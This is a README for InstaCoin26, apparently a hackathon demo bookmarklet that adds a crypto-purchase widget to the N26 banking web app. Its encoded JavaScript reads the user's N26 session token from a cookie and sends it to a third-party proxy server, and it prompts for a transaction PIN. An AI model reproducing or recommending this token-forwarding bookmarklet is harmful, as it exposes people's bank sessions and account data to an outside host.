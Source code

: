 ![N26 with InstaCoin26](N26-with-InstaCoin26.png "N26 with InstaCoin26 -- #WeAreBitcoin")

# InstaCoin26

> **Drag this link:** [InstaCoin26](javascript:(function()%7B%24('head').append('<style>.UIHeader__invite-friends %7Bbackground%3A none%3Bcursor%3A default%3Btext-decoration%3A none%3B%7D.UIHeader__invite-friends%3Ahover %7Bcursor%3A pointer%3Btext-decoration%3A none%3B%7D%23ic26 %7Bline-height%3A 24px%3B%7D.hidden %7Bdisplay%3A none%3B%7D.ic26-pin %7Bwidth%3A 22px%3Bmargin%3A 0 0 0 5px%3B%7D.ic26-form a%2C .ic26-form a%3Ahover%2C .ic26-form a%3Aactive%2C .ic26-form a%3Avisited %7Bcolor%3A white%3B%7D.ic26-form input%2C .ic26-form button %7Bheight%3A 23px%3B%7D.ic26-info%2C %7Btext-decoration%3A underline%3Bcursor%3A pointer%3B%7D<%2Fstyle>')%3Bif(window.location.host!%3D'my.n26.com')%7Bwindow.location.replace('https%3A%2F%2Fmy.n26.com')%7Dvar %24invite%3D%24('.UIHeader__invite-friends')%2C%24accountInfo%3D%24('.UIHeader__account-infos')%2C%24InstaCoin26%3D%24('<div id%3D"ic26" class%3D"UIHeader__account-infos"><em>InstaCoin26%3A<%2Fem> <span class%3D"ic26-info" title%3D"Available%3A Bitcoin %2F Ether %2F Dash %2F Litecoin">Buy cryptocurrencies for € 5 instantly!<%2Fspan> <span class%3D"hidden ic26-form">Confirm with your <input class%3D"ic26-pin" type%3D"password" name%3D"ic26-transaction-pin" placeholder%3D"PIN" autocomplete%3D"off" %2F> <button class%3D"ic26-buy">Buy now for € 5<%2Fbutton><%2Fspan><%2Fdiv>')%3B%24invite.html(%24InstaCoin26).attr('href'%2C'%23ic26')%3B%24invite.attr('href'%2C'%23ic26').on('click'%2Cfunction(e)%7Be.preventDefault()%3B%24('.ic26-form').removeClass('hidden')%3B%24('.ic26-info').addClass('hidden')%3B%24('.ic26-pin').focus()%7D)%3B%24('.ic26-buy').on('click'%2Cfunction(e)%7Be.preventDefault()%3Bvar cookiename%3D'num26token'%2Ccookiestring%3DRegExp(""%2Bcookiename%2B"%5B%5E%3B%5D%2B").exec(document.cookie)%2Cbearer%3DdecodeURIComponent(!!cookiestring%3Fcookiestring.toString().replace(%2F%5E%5B%5E%3D%5D%2B.%2F%2C"")%3A"")%2Cpin%3D%24('.ic26-pin').val()%2Capi%3D"https%3A%2F%2Fwad2018.coinfinity.co%2FInstaCoin26%2Fapi%2Fproxy.php%3Ftoken%3D"%2Bbearer%2B"%26url%3Dhttps%3A%2F%2Fapi.tech26.de%2Fapi"%3B%24('.ic26-form').html('Processing request ...')%3B%24.ajax(%7Btype%3A'GET'%2Curl%3Aapi%2B'%2Fme%3Ffull%3Dtrue'%2CdataType%3A'json'%2CbeforeSend%3Afunction(xhr)%7Bxhr.setRequestHeader('Authorization'%2C'Basic '%2Bbearer)%7D%2Csuccess%3Afunction(data)%7Bif(data.account%26%26data.account.id)%7Balert('AccountID%3A '%2Bdata.account.id%2B' -- '%2Bdata.userInfo.firstName%2B' '%2Bdata.userInfo.lastName)%3Bvar redeemUrl%3D"https%3A%2F%2Fwww.bitcoinbon.at%2Findex.en%3Fc%3Dno-real-code-no-payment-made"%3B%24('.ic26-form').html('<a href%3D"'%2BredeemUrl%2B'">Transfer coins now to your wallet.<%2Fa>').on('click'%2Cfunction()%7Bwindow.location.replace(redeemUrl)%7D)%3B%7D%7D%2Cerror%3Afunction(data)%7Balert('%2Fme error')%7D%7D)%7D)%7D)()) into your bookmarks toolbar -- click it to navigate to your [N26 web app](https://my.n26.com); click it after you signed-in to buy cryptocurrencies.

[Screencast](https://vimeo.com/270851587)


## Buy cryptocurrency instantly with [N26](https://n26.com)

You can buy Bitcoin, Ether, Dash or Litecoin worth € 5 instantly via MoneyBeam and [bitcoinbon](https://bitcoinbon.at) -- you need to redeem the coins to your own wallet.


### Open source code

* [Bookmarklet](https://github.com/HackWAD/InstaCoin26/tree/master/docs/bookmarklet.js)
* [proxy.php](https://github.com/HackWAD/InstaCoin26/tree/master/api/proxy.php)
